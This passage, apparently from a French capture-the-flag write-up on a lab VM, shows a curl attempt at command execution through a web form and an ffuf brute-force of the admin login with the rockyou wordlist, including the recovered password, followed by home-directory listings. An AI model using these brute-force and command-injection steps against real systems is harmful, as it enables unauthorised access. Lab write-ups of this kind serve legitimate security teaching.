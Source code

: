 ```html
        </div>
</body>
</html>
```

Forcément on se dit que l'authentification peut être bypassée et on tente de soumettre le formulaire tel quel :

```bash
curl -D- http://192.168.56.133/command.php -XPOST --data "radio=ls+-l&submit=Run" --referer http://192.168.56.133/command.php
```

Mais je n'obtiens pas l'exécution de commande espérée. C'est donc parti pour une attaque brute-force. La page d'index indique qu'il s'agit d'une zone d'administration. Tentons donc avec le compte `admin` :

```console
$ ffuf -X POST -u 'http://192.168.56.133/login.php' -d 'username=admin&password=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -w rockyou.txt  -fs 206

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.133/login.php
 :: Wordlist         : FUZZ: rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 206
________________________________________________

happy                   [Status: 302, Size: 367, Words: 16, Lines: 16]
```

## Password in a box

On trouve trois utilisateurs sur le système, mais seul `Jim` a vraiment des fichiers :

```
./charles:
total 20K
drwxr-xr-x 2 charles charles 4.0K Apr  7  2019 .
drwxr-xr-x 5 root    root    4.0K Apr  7  2019 ..
-rw-r--r-- 1 charles charles  220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 charles charles 3.5K Apr  6  2019 .bashrc
-rw-r--r-- 1 charles charles  675 Apr  6  2019 .profile

./jim:
total 32K
drwxr-xr-x 3 jim  jim  4.0K Apr  7  2019 .
drwxr-xr-x 5 root root 4.0K Apr  7  2019 ..
-rw-r--r-- 1 jim  jim   220 Apr  6  2019 .bash_logout
-rw-r--r-- 1 jim  jim  3.5K Apr  6  2019 .bashrc
```